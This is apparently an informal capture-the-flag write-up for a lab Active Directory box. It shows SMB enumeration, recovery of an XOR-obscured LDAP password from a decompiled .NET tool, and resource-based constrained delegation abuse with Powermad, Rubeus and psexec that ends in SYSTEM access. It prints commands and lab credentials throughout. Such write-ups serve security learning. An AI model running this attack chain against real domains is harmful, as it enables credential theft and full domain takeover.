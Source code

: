 Started with a nmap scan
```
53 DNS
88 Karberos
135 RPC
139 netbois-ssn
389 LDAP AD
445 
636
5985 HTTPI httpd
```
Starting with the SMB the guest account is enabled and we can READ the `IPC$` and `support-tools` shares doing a `rid-brute` we got some users now checking out the shares in the tools we have something interesting `UserInfo.exe.zip` and we can unzip this on are host and we get a bunch of dll and a exe file the `USerinfo.exe` is a .NET 32bit exe using ILspy we can decode the exe and looking at the protected section we can find this 
```
private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";  
  
    private static byte[] key = Encoding.ASCII.GetBytes("armando");
```
and we can make a python script to decode this `base64` and XOR and we get a string back now we can auth to ldap we can use `ldapsearch` to find descriptions and stuff in the users and we can do this with a ldap user 
`ldapsearch -x -H ldap://support.htb -D ldap@support.htb -w 'password' -b "dc=suppport,dc=htb" "*"` and if we look in the info section we get a password for the support user `support:Ironside47pleasure40Watchful` we can also winrm with this user but going back to the ldap user to get bloodhound data
`nxc ldap 10.10.11.174 -u ldap@support.htb -p 'pass' --bloodhound -c ALL -d support.htb --dns-server 10.10.11.174` now we have access and got the userflag going to run sharphound now to make sure we got all info and we can see the `group Delegated object control` shows a value of `1` and we have `genericAll` on `shared suspport accounts` we also need to check the machine account quota and we can do this with `powerview.ps1` and we need to import it `. ./powerview.ps1` and we can run `Get-domainComputer DC | select name, msds-allowedtoactonbehalfofotheridenity` and we get a empty value now to start the attack we need to upload `powermad.ps1` and `rubeus.exe` and we need to add a new machine account
`New-MachineAccount - MachineAccount FAKE-COMP01 -Password $(ConverTo-Securestring 'Password123' -AsPlainText -Force)` now we have a machine account now to set the exploit
`Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01` 
```
$RawBytes = Get-DomainComputer DC -Properties 'msdsallowedtoactonbehalfofotheridentity' | select -expand msdsallowedtoactonbehalfofotheridentity
```
now we need to convert the raw bytes 
```
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
```
now to make sure it works
```
$Descriptor 
$Descriptor.DiscretionaryAcl
```
now to perform the rebues attack 
```
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
```
now we can get the ticket 
`rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt` 
now we have the ticket we can run
`base64 -d ticket.kirbi.b64 > ticket.kirbi`
Now to convert the ticket 
`ticketConverter.py ticket.kirbi ticket.ccache`
now to import it and login to the account
`KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass`
and we have system access now 